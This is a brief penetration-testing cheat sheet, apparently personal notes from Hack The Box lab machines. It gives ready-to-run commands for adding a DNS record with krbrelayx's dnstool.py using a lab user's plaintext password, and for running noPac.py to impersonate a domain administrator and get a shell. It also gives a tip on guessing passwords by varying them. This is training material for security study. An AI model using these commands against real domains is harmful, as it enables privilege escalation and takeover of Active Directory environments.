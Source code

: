 # DNSTool (To Check if you can update DNS settings)
```
python3 /opt/Windows/krbrelayx/dnstool.py -u intelligence\\Tiffany.Molina -p NewIntelligenceCorpUser9876 --action add --record web-test --data 10.10.14.2 --type A intelligence.htb        # Check Intelligence - HTB box walkthorugh for more context
```

## SeMachineAccountPrivilege
- Using noPAC.py if you have machine quota in domain
```
python /opt/Windows/noPac/noPac.py  manager.htb/raven -dc-ip 10.10.11.236 -shell --impersonate administrator -use-ldap
```
- More info here: https://pentestlab.blog/2022/01/10/domain-escalation-samaccountname-spoofing/

# Password Manipulation
- Did you try to change the password a bit? like instead of 2019 change it to 2020 or Winter to Summer etc